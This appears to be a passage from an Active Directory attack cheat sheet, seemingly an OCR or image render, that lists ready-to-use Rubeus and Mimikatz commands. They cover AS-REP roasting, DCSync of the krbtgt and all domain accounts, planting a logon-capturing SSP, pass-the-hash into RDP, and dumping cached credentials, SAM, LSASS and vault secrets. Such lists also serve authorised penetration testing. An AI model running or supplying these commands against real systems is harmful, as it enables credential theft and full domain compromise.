 ## Rubeus asreproast PreauthNotRequired user
```
Invoke-Rubeus asreproast /format:hashcat /outfile:hashes.asreproast /user:<username
```

# Mimikatz
## Mimikatz.exe DCSync krbtgt
```
mimikatz.exe "lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt" "exit"
```

## Mimikatz.exe Monitor Logon
```
mimikatz.exe "privilege::debug" "misc::memssp" "exit"
```

## Mimikatz.exe Dump mscash - Cached Domain Credentials(DCC2)
```
mimikatz.exe "lsadump::cache" "exit"
```

## Mimikatz.ps1 DCSync krbtgt
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt"'
```

## Mimikatz.ps1 DCSync all
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /all /csv"'
```

## Mimikatz.ps1 RDP pth
```
Invoke-Mimikatz -Command "sekurlsa::pth /user:<username> /domain:<domain> /ntlm<nthash> /run:'mstsc.exe /restrictedadmin'"
```

## Mimikatz.ps1 Dump SAM and Lsass
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"  "lsadump::sam" "exit"'
```

## Mimikatz.ps1 Dump passwords of scheduled tasks
```
Invoke-Mimikatz -Command '"vault::cred /patch"'
```
